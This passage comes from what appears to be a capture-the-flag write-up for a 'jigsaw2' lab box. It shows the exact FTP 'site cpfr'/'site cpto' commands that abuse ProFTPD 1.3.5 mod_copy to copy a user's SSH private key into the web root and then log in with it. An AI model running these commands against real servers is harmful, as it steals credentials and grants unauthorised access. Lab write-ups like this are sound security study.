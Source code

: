 Let's focus on the FTP port we found. It's running version `1.3.5` which vulnerable to mod copy.

![](images/jigsaw2/searchsploit.png)

But I still couldn't figure out how to use them to get a shell. Then [@4ndr34z](https://twitter.com/4ndr34z) gave me a hint saying `The upload site is just a hint. Giving you the paths you need to do mod copy`.

That's when I realized what I was supposed to do.

![](images/jigsaw2/exploit.png)

* `site cpfr /home/jigsaw/.ssh/id_rsa`: copy the ssh key.
* `site cpto /var/www/html/c4nf1ndm3z3ppl375pl4y4n3w64m3c0m3f1ndm3h3lpm3l1f3c0m3pl4yw17hm3j1654wc4nh4ck700/keyz`: copy it to the said path.

Now if we visit that path via HTTP we'll get the private key for `jigsaw`

![](images/jigsaw2/ssh-keyz.png)

I copied the key to a file named `keyz` and then did `chmod 600 keyz` and used it to login as `jigsaw`.
